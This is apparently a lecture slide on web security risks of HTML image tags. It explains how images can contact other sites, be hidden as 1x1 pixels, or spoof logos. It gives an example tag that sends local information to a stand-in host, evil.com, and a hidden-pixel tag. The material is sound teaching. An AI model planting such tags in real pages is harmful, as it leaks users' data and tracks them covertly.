

# Image issues
From the security standpoint, several issues with this!
Communicate with other sites:
   <img src=“http://evil.com/pass-local-
      information.jpg?extra_information”>
Hide resulting image
    <img src=“ … ” height=“1" width=“1">
Spoof other sites: can add logos that fool a user